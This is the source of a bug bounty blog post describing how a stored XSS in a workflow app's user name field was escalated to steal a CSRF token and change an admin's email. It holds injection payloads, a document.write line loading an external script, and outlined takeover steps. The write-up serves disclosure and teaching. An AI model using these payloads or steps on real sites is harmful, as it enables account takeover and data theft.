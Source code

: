 ```yaml
---
layout: default
title: Stored XSS to CSRF 
description: There's much more to XSS than just an alert !
date:   2020-05-21 
date_only: May 21, 2020
permalink: /stored-xss-to-csrf/
reading_time: 6 minutes
image: /assets/images/stored-xss-to-csrf/poc.png
---
```

<head>
  <link rel="stylesheet" href="/assets/css/main1.css">
  <!-- Latest compiled and minified CSS -->
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css">

  <!-- jQuery library -->
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>

  <!-- Popper JS -->
  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.16.0/umd/popper.min.js"></script>

  <!-- Latest compiled JavaScript -->
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js"></script>

  <title>{{ page.title }}</title>
  <style>
    .content{
        font-size: 20px;
    }
   
  </style>
</head>

<section id="one" class="wrapper style1">
  <div class="inner">
        
    <article class="feature left" style="background-color: white; color: black;">
        <center style="padding-bottom: 20px;">
            <h2 style="padding: 20px; color: black;"><b>{{ page.title }}</b></h2>
            <div style="color:#0067a3">
              {{ page.date_only }}
              <br />
              ~{{ page.reading_time }}
            </div>
            
        </center>
        <div class="content" style="padding:10px;">
            <p>
                There's almost no limit what you can do with XSS, stored XSS in particular, in most of the situations. It allows javascript code execution in the victim's browser. XSS is not just about popping an alert box and stealing cookies is just one method, which is decreasing because many websites have HttpOnly flag on their cookies which protects them. In that case, if you don't know exploiting it other than stealing cookies, even though your submission would be accepted, you could be missing out on high impacts, like account takeover. 
                <br ><br >

                I received an invite for a private program a few days back. It was a workflow management websites, where you could assign your team members project, and upload files, and other stuff with different levels of users. I decided to hack on it, as these kind of different user privileges super excites me due to the large scope of privilege escalation.

                So, I started browsing the site understanding it's functionality. Now, there was a project section, where users could keep their project private, or add some of their team members in it. There was a functionality to add comments to the project, and the members added in the project had the option to add like to the comment. But knowing the project ID, I was able to add likes to a project, which I was not a part of, and had no visibility permissions. I reported this, and I received a response stating that the project ID is not predictable, and status was changed to "Won't fix" and it got me only 5 points☹️

                Next, there was a functionality to search other users, by their username. The endpoint was something like 
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_request.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                I have stripped out a lot of other things for simplicity. This would return a response containing all the users whose name starts with "micha" like michaelben, michael etc.
                So the response was something like
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_response.png" alt="" height="30%" width="80%" />
            </center>
            <br ><br >
            <p>
                Again, the response contained a lot of other data, among which this was the most interesting ones. On a first glance, I thought this is leaking the address and mobile numbers of other team members, but later realised that they were actually visible on their profile.
                <br />
                Then the LIMIT parameter in the GET request caught my eyes, and I changed it to 1000. I got a hell lot of data regarding each of the team member. The response included the name of private documents uploaded by each user which was visible only to the user. Additionally, there were other details that the endpoint leaked such as private projects, and other information which were supposed to visible only to the particular user. 
                <br />
                On reporting this, I got a reply saying this was by design ! 😨
                Obviously, I couldn't do anything.
            </p>
            <br ><br >
            <p>
                I previously injected the XSS payload, <pre>"><img src onerror=alert(1)></pre> in one of the members name to test XSS, and it obviously didn't fire. I was just browsing using the admin account. I visited the member's profile with the payload. There was an option to deactivate the user. After deactivating, you receive a pop up saying "Deactivated {member name}". But when I deactivated this user, I got an invalid image symbol. I found this interesting. There are two possibilities which is mostly implemented in such a situation. One would be render the whole payload safely by some kind of filtering, and the other would be to completely remove the payload. But this removed only the tag , and so it loooked like <pre style="display: inline;">< img src=""></pre>. It was vulnerable to HTML and CSS injection, I could take down the whole page using <pre>< style>body{display: none}</style></pre>. But I was aiming XSS.

                I tried to bypass this, but I couldn't. I decided to look at the source code. I knew that it was parsing my HTML tags. The notification content was enclosed within a div tag. I immediately closed the div tag, and entered my payload. So the final payload was <pre>"></div><img src onerror=alert(document.domain)</pre>.

                Now when I deactivated the user with this payload, the payload fired. But I could not get the session cookies using this method, due to the HttpOnly flag. But I could get the CSRF token, using which I could change the admin email address. But again, since everything was against me, I was limited by the number of characters in the name where the payload must be injected. 

                So, I thought of referencing an external script to the page. I did <pre>document.getElementById("id").innerHTML = '< script src="http://localhost/alert.js"></script>'</pre>, where alert.js contained alert(document.domain), which would fire if the script was included. But it didn't. On more researching onto this, I found that scripts do not load in an already loaded page using the innerHTML method. Alternatively, using <pre>document.write("< script src='http://localhost/alert.js'></script>")</pre> could achieve it. I did that, and I got the alert. 
                Now just a simple POC.
            </p>
            <br ><br >
            <center>
                <img src="/assets/images/stored-xss-to-csrf/poc.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                <ul>
                    <li>Get the cookie string</li>
                    <li>Extract only the value of CSRF-TOKEN from the string</li>
                    <li>Send the POST request to change the email address with the CSRF-TOKEN in the header</li>
                </ul>
                Just don't stop with an alert box if you find XSS. It has a lot more potential. 
                <br>
                See you again in the next blog post :)
            </p>
        </div>
        Share: <a class="icon fa-twitter" target="_blank"
      href="https://twitter.com/intent/tweet?text=Check out {{ page.title }} by micha3lb3n at https://micha3lb3n.github.io{{ page.permalink }}" data-size="large" url="https://micha3lb3n.github.io/">
    Tweet</a>
    </article>
